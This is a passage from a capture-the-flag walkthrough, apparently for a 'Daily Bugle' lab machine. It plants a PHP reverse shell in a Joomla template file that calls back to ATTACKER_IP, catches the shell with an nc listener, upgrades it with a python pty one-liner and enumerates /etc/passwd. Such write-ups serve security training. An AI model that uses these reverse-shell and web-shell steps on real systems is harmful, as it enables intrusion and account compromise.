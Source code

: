 #### **Create nc listener.** <a href="#jsln9fftg7jy" id="jsln9fftg7jy"></a>

nc -lvnp 1234

### **Upload reverse shell to Joomla (Credential Access: Exploitation for Credential Access (ID: T1212)** <a href="#o15tzkvydaj1" id="o15tzkvydaj1"></a>

* Edit Joomla theme to upload reverse shell code.
  * "Control Panel" > "Templates" > "Templates" tab > "Beez3 Details and Files" > Select "index.php".
  * Paste[ php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) into page.
    * Edit "ip" field to ATTACKER\_IP.
* "Save" changes to page.
* "Template Preview".

#### **Reverse shell caught by listener** <a href="#id-1kr5ik6v7pyg" id="id-1kr5ik6v7pyg"></a>

Connection from TARGET\_IP 35666 received!

Linux dailybugle 3.10.0-1062.el7.x86\_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86\_64 x86\_64 x86\_64 GNU/Linux

11:26:24 up 59 min, 0 users, load average: 0.00, 0.01, 0.05

USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT

uid=48(apache) gid=48(apache) groups=48(apache)

sh: no job control in this shell

sh-4.2$ whoami

whoami

apache

* Upgrade shell.

python -c 'import pty; pty.spawn("/bin/bash")'

enumeration is the key to hack.

### **Enumerate system users (Privilege Escalation: Valid Accounts: Local Accounts (ID: T1078.003))** <a href="#ud55oy1yq5ah" id="ud55oy1yq5ah"></a>

cat /etc/passwd

root:x:0:0:root:/root:/bin/bash

\[snip...]

jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash

* "apache" user has no sudo delegation (sudo -l).
* No unusual files with SUID bit set for "apache" user.
